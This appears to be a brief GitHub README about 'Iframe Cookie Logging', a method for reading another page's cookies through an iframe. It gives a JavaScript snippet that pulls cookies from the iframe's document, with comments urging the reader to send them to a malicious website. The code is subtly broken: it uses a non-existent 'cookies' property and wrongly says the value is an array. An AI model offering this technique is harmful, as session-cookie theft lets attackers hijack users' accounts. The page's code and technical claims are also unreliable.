 # ICL
ICL, also known as Iframe Cookie Logging is a method that gets cookies in a iframe element. ICL is really easy to implement as it uses built-in JS functions. We load the iframe and we can get the cookies in it.

### Should i worry about this method?
No, most websites like ROBLOX, Twitter and other sites have implemented a feature that blocks any third party iframes from accessing its contents which prevents this method from being used. And yes this only works on IE, (maybe legacy microsoft edge) and yeah.


````js
 var iframe = document.getElementById("foo"); // your frame id or point to a element.
  var cookies = iframe.contentWindow.document.cookies; // It comes in a array, to get a certain cookie  use the [], like if i weree getting the 2 cookie i would do [1] // (Computers count from 0)
  alert(cookies)
  
  // Now the cookies element has been defined, you can
  // send it to a malicious website, store it on a
  // database and yeah. Treat it like it was your
  // site and you executing JS.
````
